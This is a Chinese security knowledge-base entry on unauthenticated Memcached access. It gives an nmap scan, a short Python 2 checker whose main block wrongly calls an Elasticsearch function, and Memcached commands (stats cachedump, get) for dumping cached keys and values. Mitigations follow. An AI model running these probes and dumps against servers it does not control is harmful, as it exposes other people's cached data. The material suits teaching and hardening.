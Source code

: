 Memcache未授权访问
==================

一、漏洞简介
------------

> memcached是一套分布式的高速缓存系统。它以Key-Value（键值对）形式将数据存储在内存中，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。

二、影响范围
------------

三、复现过程
------------

#### 1.扫描探测

    nmap -sV -p 11211 --script memcached-info 0.0.0.0

![](resource/Memcache未授权访问/media/rId25.png)

    ##! /usr/bin/env python
    ## _*_  coding:utf-8 _*_
    def Memcache_check(ip, port=11211, timeout=5):
        try:
            socket.setdefaulttimeout(timeout)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, int(port)))
            s.send("stats\r\n")
            result = s.recv(1024)
            if "STAT version" in result:
                print '[+] Memcache Unauthorized: ' +ip+':'+str(port)
        except Exception, e:
            pass
    if __name__ == '__main__':
        Elasticsearch_check("127.0.0.1")

#### 2.攻击利用

##### 2.1 基础部分

通过一个cheat
sheet了解一下Memcached的协议。Memcached的语法由如下元素组成

-   {COMMAND}0x20{ARGUMENT}(LF\|CRLF)

command字段有如下几条命令

-   存储操作(set, add, replace, append, prepend, cas)

-   检索操作 (get, gets)

-   删除操作 (delete)

-   增减操作 (incr, decr)

-   touch

-   slabs reassign

-   slabs automove

-   lru\_crawler

-   统计操作(stats items, slabs, cachedump)

-   其他操作 (version, flush\_all, quit)

  Command        描述                实例
  -------------- ------------------- --------------------
  get            读某个值            get mykey
  set            强制设置某个键值    set mykey 0 60 5
  add            添加新键值对        add newkey 0 60 5
  replace        覆盖已经存在的key   replace key 0 60 5
  flush\_all     让所有条目失效      flush\_all
  stats          打印当前状态        stats
  stats malloc   打印内存状态        stats malloc

version \| 打印Memcached版本 \| version

    stats  //查看memcache 服务状态
    stats items  //查看所有items
    stats cachedump 32 0  //获得缓存key
    get :state:264861539228401373:261588   //通过key读取相应value ，获得实际缓存内容，造成敏感信息泄露

#### 2.2 建立连接并获取信息

telnet 11211，或 nc -vv 11211，无需用户名密码，可以直接连接memcache
服务的11211端口。

![](resource/Memcache未授权访问/media/rId29.png) 附赠大佬写的文章
[Discuz!因Memcached未授权访问导致的RCE](https://xz.aliyun.com/t/2018)

#### 3.防范措施

##### 1.限制访问

如果memcache没有对外访问的必要，可在memcached启动的时候指定绑定的ip地址为
127.0.0.1。其中 -l 参数指定为本机地址。例如： memcached -d -m 1024 -u
root -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

或者 vim /etc/sysconfig/memcached，修改配置文件 OPTIONS=\"-l
127.0.0.1\"，只能本机访问，不对公网开放，保存退出 /etc/init.d/memcached
reload

##### 2.防火墙

    // accept
    ## iptables -A INPUT -p tcp -s 127.0.0.1 --dport 11211 -j ACCEPT
    ## iptables -A INPUT -p udp -s 127.0.0.1 --dport 11211 -j ACCEPT

    // drop
    ## iptables -I INPUT -p tcp --dport 11211 -j DROP
    ## iptables -I INPUT -p udp --dport 11211 -j DROP

    // 保存规则并重启 iptables
    ## service iptables save
    ## service iptables restart

##### 3.使用最小化权限账号运行Memcached服务

使用普通权限账号运行，指定Memcached用户。

    memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

##### 4.启用认证功能

Memcached本身没有做验证访问模块,Memcached从1.4.3版本开始，能支持SASL认证。[SASL认证详细配置手册](http://www.postfix.org/SASL_README.html?spm=a2c4g.11186623.2.5.RpKdcX##saslauthd)

##### 5.修改默认端口

修改默认11211监听端口为11222端口。在Linux环境中运行以下命令：

    memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11222 -c 1024 -P /tmp/memcached.pid

##### 6.定期升级

参考:

<http://lzone.de/cheat-sheet/memcached>

<https://www.secpulse.com/archives/49659.html>

<https://www.sensepost.com/blog/2010/blackhat-write-up-go-derper-and-mining-memcaches/>

<https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf>

<http://niiconsulting.com/checkmate/2013/05/memcache-exploit/>

<https://xz.aliyun.com/t/2018>

<http://drops.xmd5.com/static/drops/web-8987.html>

https://blog.csdn.net/microzone/article/details/79262549\<
